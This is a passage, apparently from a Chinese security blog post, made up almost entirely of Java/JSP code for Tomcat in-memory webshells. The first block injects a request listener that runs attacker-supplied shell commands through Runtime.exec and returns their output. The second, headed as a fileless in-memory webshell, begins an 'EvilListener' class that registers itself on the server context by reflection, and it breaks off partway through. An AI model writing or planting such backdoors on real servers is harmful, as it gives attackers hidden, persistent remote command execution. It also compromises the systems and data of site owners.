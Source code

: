 ```java
                        isLinux = false;
                    }
                    String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\a");
                    String output = s.hasNext() ? s.next() : "";
                    response.getOutputStream().write(output.getBytes());
                    response.getOutputStream().flush();
                    response.getOutputStream().close();
                    return;
                } catch (IOException e) {
                }
            }
        }
    };
    standardContext.addApplicationEventListener(servletRequestListener);
    out.println("inject success");
%>
```
![](https://img-blog.csdnimg.cn/8218b5e10db0427ba9bed8ee085a27f7.png)
#### 无文件内存马
```java
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Scanner;

public class EvilListener implements ServletRequestListener {
    static {
        try {
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

            EvilListener servletRequestListener = new EvilListener();
            Method addlistener = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredMethod("addApplicationEventListener", Object.class);
            addlistener.invoke(standardContext,servletRequestListener);
        } catch (Exception hi) {
        }
    }

    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }
    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        try{
            RequestFacade requestfacade= (RequestFacade) servletRequestEvent.getServletRequest();
            Field field = requestfacade.getClass().getDeclaredField("request");
            field.setAccessible(true);
```